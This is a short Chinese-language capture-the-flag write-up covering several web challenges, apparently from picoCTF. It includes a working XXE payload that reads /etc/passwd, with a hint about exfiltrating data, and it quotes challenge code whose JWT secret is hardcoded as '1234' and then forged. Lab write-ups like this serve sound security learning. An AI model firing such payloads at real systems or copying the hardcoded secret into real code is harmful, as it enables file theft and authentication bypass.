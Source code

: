 # WEB

## findme

302 跳转

### MatchTheRegex

F12 查看注释

### SOAP

点击detail post了xml文件

![image-20230316190919361](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230316190919361.png)

由题目也知道是xxe

* payload

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
<!ELEMENT ID ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<data>
<ID>&xxe;</ID>
</data>
```

将外部实体名称换成发送出去的就可以了



### More SQLi

byd这道题怎么这么卡，难道被延迟注入了

### Java Code Analysis!?!
一个在线阅读网站,而flag.pdf需要鉴权
提示是jwt伪造 ,全局搜索可以看到jwt这个类
```java
    public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }
```

跟进getServerSecret函数
```java
//读取一个文件,如果不存在就随机生成32位数并写入文件
//    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";
    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
```

```java
    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }
```

所以jwt的密钥为1234,伪造
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230509091252.png)

这里注意多次修改userID来尝试,,,

### cancri-sp
一个G的附件?run了